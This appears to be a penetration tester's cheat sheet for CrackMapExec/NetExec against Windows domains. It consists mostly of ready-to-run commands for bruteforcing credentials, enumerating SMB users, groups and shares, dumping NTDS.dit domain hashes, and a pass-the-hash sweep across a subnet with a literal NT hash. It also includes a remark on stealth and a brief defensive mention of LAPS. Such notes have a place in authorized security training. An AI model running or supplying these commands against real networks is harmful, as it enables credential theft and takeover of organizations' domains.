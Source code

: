 CrackMapExec (or the new fork NetExec) is a very powerful tool for Windows domain enumeration and bruteforcing, with lots of options to play with. 

## Bruteforcing (Simple)
```shell
crackmapexec <protocol> <IP> -u <username or userlist> -p <password or passwordlist> # Bruteforce a protocol with CME
```
## SMB Mode
```shell
crackmapexec smb 172.16.5.5 --users
# Enumerate number of bad password attempts
crackmapexec smb <DC_IP> -u <username> -p <password> --users # Enumerate Domain Users #withcreds
crackmapexec smb <DC_IP> -u <username> -p <password> --groups # Enumerate Domain Groups
crackmapexec smb <DC_IP> -u <username> -p <password> --loggedon-users # Enumerate Domain Users who are currently logged on
crackmapexec smb <DC_IP> -u <username> -p <password> --shares # Enumerate Domain shares
crackmapexec smb <DC_IP> -u <username> -p <password> -M spider_plus --share <share name> # Spider SMB share for all readable files
crackmapexec smb <DC_IP> -u <username> -p <password> --ntds # Dump NTDS.dit and print all domain hashes
```

## If you have an NT hash of a local admin:

```shell-session
# Trying once on each machine (--local-auth) to see if the administrators hash is used elsewhere. Grep for sucessful logins.

sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

==The above command is noisy!== Do not use if you are trying to be stealthy. One way to mitigate this is to use Local Administrator Password Solution (LAPS) to have AD enforce a unique password on each host.

https://github.com/Pennyw0rth/NetExec

